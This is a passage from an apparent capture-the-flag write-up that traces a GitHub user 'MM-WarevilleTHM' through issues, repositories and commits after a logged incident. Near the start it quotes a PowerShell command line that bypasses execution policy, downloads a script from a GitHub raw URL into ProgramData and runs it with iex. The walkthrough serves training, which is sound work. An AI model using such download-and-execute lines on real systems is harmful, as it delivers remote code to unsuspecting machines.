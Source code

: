Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
</code></pre>

<br>
<p>I accessed the following link ...</p>

<pre><code>https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1</code></pre>

<br>
<p>I got this ...</p>

![image](https://github.com/user-attachments/assets/8133dd4e-ad47-4621-9057-1e3ef2612f95)

<br>

<p>Then I accessed the below provided link in order to investigate M.M.</p>

<pre><code>https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues</code></pre>

<p>and got this ...</p>

![image](https://github.com/user-attachments/assets/069a3c51-1b61-4b17-9d7a-2a88120d855f)

<br>

<p>After clicking on the second link of the previous webpage, I noticed a conversation between <code>MM-WarevilleTHM</code> and <code>Bloatware-WarevilleTHM</code></p>


![image](https://github.com/user-attachments/assets/a10ae21b-4a24-4d27-b354-3468fed3fcf2)

<br>

<p>Here I discover who is M.M. ...</p>

![image](https://github.com/user-attachments/assets/c91bb786-2e16-4f68-9ec6-7ee06e9c2fe9)


<br>

<p>M.M. has 2 repositories: <code>IS</code> and <code>M.M.</code>, and joined GitHub on October 22, 2024.</p>

![image](https://github.com/user-attachments/assets/95d2e62b-b3ba-4877-a3a4-a33734ea418c)

<br>

![image](https://github.com/user-attachments/assets/1760cdf4-c449-484b-8d7b-75108c020896)

<br>

<p>Next I identified the number of commits on the GitHub repo where the issue was raised, which is <code>IS</code></p>

